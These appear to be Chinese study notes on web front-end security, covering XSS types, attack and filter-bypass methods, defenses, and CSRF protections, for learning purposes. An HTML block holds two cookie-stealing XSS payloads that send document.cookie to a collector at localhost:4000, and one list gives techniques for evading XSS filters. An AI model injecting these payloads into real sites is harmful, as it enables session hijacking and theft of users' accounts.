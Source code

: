 恶意攻击者往 Web 页面里嵌入恶意的客户端脚本，当用户浏览此网页时，脚本就会在用户的浏览器上执行，进而达到攻击者的目的。比如获取用户的 cookie、导航到恶意网站、携带木马等。

反射型 XSS：通过用户输入框，将恶意攻击脚本附加到 URL 地址的参数中。通常出现在网络的搜索框和用户登录入口。

持久型 XSS：攻击者事先将恶意 js 代码上传或存储到漏洞服务器数据库中，只有受害者浏览包含此恶意 js 代码的页面，就会执行恶意代码。可实现 XSS 蠕虫。

XSS 攻击方式：

- 通过 `<>` 等字符，如 script 标签注入 HTML/js。

- 利用 JavaScript 伪协议，通过 HTML 标签的属性值进行攻击，如 img 标签的 src 属性。

- 利用 HTML 的事件执行函数，如 onerror 函数进行攻击。

- 利用空格、回车或 tab 等绕过 XSS filter 的检测。

- 用大小写、字符编码等绕过 XSS filter 的检测。

- 拆分跨站法，将攻击的代码拆分，以绕过输入字符长度的限制。

- 通过 CSS 跨站，实现攻击。

防御方法：

1. 使用 XSS filter：对表单属性值类型进行验证，过滤或移除特殊的 HTML 标签，过滤 js 事件。

2. 特殊字符进行转义：如 `<(&lt), >(&gt), 空格(&nbsp)`、斜杠反斜杠等。

3. 设置 http only cookie：当客户端发送请求时，cookie 会添加到请求头，但 js 脚本不能访问 cookie。

4. 浏览器自带防御机制：主要应对反射型 XSS（HTML 内容或属性），http 响应头中自动添加 x-xss-protection，值为0（关闭），1（打开），默认打开。

[前端常见的攻击方式及预防方法](https://www.jianshu.com/p/a5ff8a23b423){link=static}

[前端安全-常见的攻击以及防御](https://www.cnblogs.com/zhiying/p/11018331.html){link=static}

[彻底弄懂XSS和CSRF](https://segmentfault.com/a/1190000023031910){link=static}

```html
<script>document.write(`<img width=0 height=0 src="http://localhost:4000/cookie?cookie=${document.cookie}"/>`)</script>

<script>document.body.appendChild(document.createElement("img").src = `http://localhost:4000/cookie?cookie=${document.cookie}`)</script>
```

### CSRF 跨站请求伪造

攻击者通过各种方法伪造一个请求（如获取 cookie），模仿用户提交表单的行为，从而达到修改用保护数据，或执行特定任务的目的。

CSRF 防御：

- 禁止第三方网站携带本网站的 cookie 信息：设置 same-site 属性，有两个值，Strict（禁止本 cookie 作为第三方 cookie）和 Lax（a、link 和 from 的 get 请求可以）。

- 验证 HTTP referer 字段，该字段记录了请求的来源地址。但由于是浏览器提供的，不够安全。

- 添加 token 认证：服务器返回 token 后，保存在其它地方（不保存在 cookie），每次请求带上 token 验证身份。

- 使用 post 请求，增加攻击成本。

### HTTP HEADS 攻击

